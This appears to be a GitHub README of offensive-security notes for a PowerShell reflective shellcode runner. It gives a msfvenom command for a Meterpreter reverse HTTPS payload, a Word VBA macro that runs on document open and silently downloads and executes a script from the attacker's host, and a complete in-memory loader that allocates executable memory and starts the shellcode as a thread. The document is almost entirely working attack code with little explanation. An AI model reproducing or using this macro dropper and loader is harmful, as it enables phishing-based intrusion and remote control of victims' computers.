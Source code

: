 # PowerShell-Reflection-Shellcode-Runner

Payload generation

  msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
  
 our Microsoft Office 2016 version of Word is a 32-bit process, which means that PowerShell will also launch as a 32-bit process.

VBA code calling the PowerShell cradle that executes the shellcode runner

                    Sub MyMacro()
                      Dim str As String
                      str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<kali ip>/run.ps1') | IEX"
                      Shell str, vbHide
                    End Sub
                  
                    Sub Document_Open()
                      MyMacro
                    End Sub
                  
                    Sub AutoOpen()
                      MyMacro
                    End Sub

we can also try and use .txt extension 

Complete PowerShell script for in-memory shellcode runner

		function LookupFunc {
		
			Param ($moduleName, $functionName)
		
			$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
		    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
		      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
		    $tmp=@()
		    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
			return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
		}
		
		function getDelegateType {
		
			Param (
				[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
				[Parameter(Position = 1)] [Type] $delType = [Void]
			)
		
			$type = [AppDomain]::CurrentDomain.
		    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
		    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
		      DefineDynamicModule('InMemoryModule', $false).
		      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
		      [System.MulticastDelegate])
		
		  $type.
		    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
		      SetImplementationFlags('Runtime, Managed')
		
		  $type.
		    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
		      SetImplementationFlags('Runtime, Managed')
		
			return $type.CreateType()
		}
		
		$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
		
		[Byte[]] $buf = generated shell code
		
		[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
		
		$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) 	
  			([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
		
		[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
		
		  
